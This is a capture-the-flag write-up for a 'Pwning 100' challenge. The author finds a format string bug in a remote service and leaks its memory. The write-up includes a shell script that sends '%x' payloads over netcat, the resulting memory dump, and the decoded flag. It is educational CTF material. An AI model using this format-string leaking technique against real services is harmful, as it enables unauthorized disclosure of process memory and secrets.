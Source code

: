 # My first service I - Pwning 100

```
Blacky is taking his first steps at C programming for embedded systems, but he makes some mistakes. Retrieve the secret key for access.

nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Alternate server: 7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site 35000 
```

Basically, this one asks you for a "secret key" over the network.
I hate to say it, but this one's almost exactly the same as [Chile](https://ctftime.org/writeup/4374) from H4ck1t this year. We netcat to `9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:35000`, ostensibly to enter a "secret key", but it's pretty clear from messing around that the server is vulnerable to a format string bug (we aren't given a binary):

```
$ nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: %x
Invalid key: 0

Please input the secret key: %s  
Invalid key: (null)

Please input the secret key: ^C
```

Lets dump memory, 32 bits at a time:

```
$ cat getflag 
#!/bin/sh

for i in $(seq 0 54)
do
	payload=$(perl -e "print '%x' x $i . '%08x'")
	echo "$payload" | nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000 | head -n 2 | tail -n 1 | tail -c 9
done

```

Each payload looks like `%x%x%x%08x` or similar. We don't care about what's output by each `%x`; the last few commands in the pipeline throw away everything but the output of the `%08x`. We then get a memory dump, 4 bytes at a time:

```
$ ./getflag | tee log
00000000
0000000a
00000000
00000000
00000000
0000000a
00000000
454b4f7b
4c614269
67426566
3072647d
00000000
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782578
25782530
25303878
38780a00
0a000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
00000000
496e7661
6c696420
6b65793a
20257825
78257825
78257825
78257825
78257825
78257825
78257825
```

It's actually not a 100% faithful dump; each output is from a different run of the program and all the `7825`'s are actually `%x`'es which have clobbered whatever used to be there.

```
$ cat log | hex2bin


EKO{LaBigBef0rd}%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%0%08x8x

Invalid key: %x%x%x%x%x%x%x%x%x%x%x%x%x%
```

Good enough, I guess. 
